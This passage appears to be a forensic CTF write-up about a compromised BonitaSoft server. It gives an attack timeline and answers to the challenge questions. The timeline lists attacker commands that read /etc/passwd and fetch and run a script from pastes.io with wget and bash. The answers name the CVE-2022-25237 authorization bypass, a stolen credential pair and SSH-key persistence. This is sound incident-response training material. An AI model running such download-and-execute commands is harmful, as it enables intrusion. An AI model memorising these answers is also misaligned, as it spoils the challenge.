 | Time (UTC) | Description | Reference |
| --- | --- | --- |
| 15:31:27 | Credential stuffing attack starts (156.146.62.213) | PCAP |
| 15:35:05 | Successful login and upload / execute / delete `whoami` | PCAP |
| 15:37:32 | Credential stuffing attack stops | PCAP |
| 15:38:38 | Upload / execute / delete `cat /etc/passwd` | PCAP |
| 15:38:52 | Upload / execute / delete `wget https://pastes.io/raw/bx5gcr0et8` | PCAP |
| 15:38:53 | TLS log for `pastes.io` | Logs |
| 15:39:18 | Upload / execute / delete `bash bx5gcr0et8` | PCAP |
| 15:39:18 | TLS log for `pastes.io` | Logs |

### Question Answers
1. We believe our Business Management Platform server has been compromised. Please can you confirm the name of the application running?

   BonitaSoft
2. We believe the attacker may have used a subset of the brute forcing attack category - what is the name of the attack carried out?

   Credential Stuffing
3. Does the vulnerability exploited have a CVE assigned - and if so, which one?

   CVE-2022-25237
4. Which string was appended to the API URL path to bypass the authorization filter by the attacker’s exploit? (No special characters)

   i18ntranslation
5. How many combinations of usernames and passwords were used in the credential stuffing attack?

   56
6. Which username and password combination was successful?

   `seb.broom@forela.co.uk:g0vernm3nt`
7. If any, which text sharing site did the attacker utilise?

   `pastes.io`
8. Please provide the filename of the public key used by the attacker to gain persistence on our host.

   `hffgra4unv`
9. Can you confirmed the file modified by the attacker to gain persistence?

   `/home/ubuntu/.ssh/authorized_keys`
10. Can you confirm the MITRE technique ID of this type of persistence mechanism?

    T1098.004

## Beyond Root

### Identify Script
